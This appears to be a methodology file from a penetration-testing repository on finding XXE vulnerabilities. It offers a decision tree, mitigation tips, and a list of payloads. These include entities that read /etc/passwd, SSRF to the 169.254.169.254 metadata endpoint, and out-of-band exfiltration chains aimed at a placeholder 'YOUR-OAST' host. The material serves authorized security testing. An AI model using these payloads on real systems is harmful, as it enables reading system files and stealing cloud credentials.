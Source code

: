 ### XXE Hunt Methodology

Use only with explicit authorization. This flow helps find classic and blind XXE, parameter entities, external DTDs, XInclude, and SVG-based XXE.

---

## Decision tree: question-driven XXE hunting

1) Where is XML processed?
- Stock check endpoints, SOAP/XML APIs, file uploads (SVG, XML, DOCX, XLSX, PPTX, PDF forms), SAML/metadata, RSS/Atom.

2) Can you inject or fully control XML?
- Raw XML body? URL-encoded parameter that feeds an XML node? Multipart XML part? Try breaking with `]]>` or malformed tags to surface XML parser errors.

3) Parser behavior and defenses
- Entities allowed? If blocked, try parameter entities (`<!ENTITY % ...>`). Are external DTDs fetched? Network egress allowed?
- Error verbosity: do errors reflect entity expansion or internal file paths?

4) Pick approach by visibility
- In-band file read (entities/XInclude) → report contents in response.
- Blind/OOB (external entity/DTD) → use Collaborator/OAST callbacks.
- Error-based exfil → append content into an error via non-existent resource.

5) Payload families (see `XXE/wordlists/` and `XXE/pocs/`)
- Read local file: internal subset entity; XInclude.
- SSRF: external entity to metadata (169.254.169.254), internal services.
- Blind/OOB: external entity to OAST, or external DTD with stacked entities.
- Parameter entities: `%xxe;` to bypass entity bans.
- External DTD data exfil: build `%file`, `%eval`, `%exfil` chain.

6) Confirm and pivot
- For blind: observe DNS/HTTP hits; for in-band: verify file content markers.
- If entities banned, try parameter DTD; if network blocked, prefer XInclude / local entity.

---

## Quick payload mapping

- Read file (internal entity): `<!ENTITY xxe SYSTEM "file:///etc/passwd"> ... &xxe;`
- SSRF (entity): `<!ENTITY xxe SYSTEM "http://169.254.169.254/..."> ... &xxe;`
- Blind OOB: `<!ENTITY xxe SYSTEM "http://YOUR-OAST"> ... &xxe;`
- Parameter entity OOB: `<!ENTITY % xxe SYSTEM "http://YOUR-OAST"> %xxe;`
- External DTD exfil (stacked): host DTD with `%file`, `%eval`, `%exfil`.
- XInclude: `<xi:include parse="text" href="file:///etc/passwd"/>` with `xmlns:xi`.
- SVG: entity in internal subset then reference in `<text>`.

---

## Reporting/mitigation

- Disable DTDs/external entities in XML parsers; use safe parsers.
- For SAML/XML-based flows, validate schema strictly; avoid dynamic entity expansion.
- Block egress to metadata endpoints; segment internal services.
- Sanitize uploads and SVG processing; prefer image transcoders.


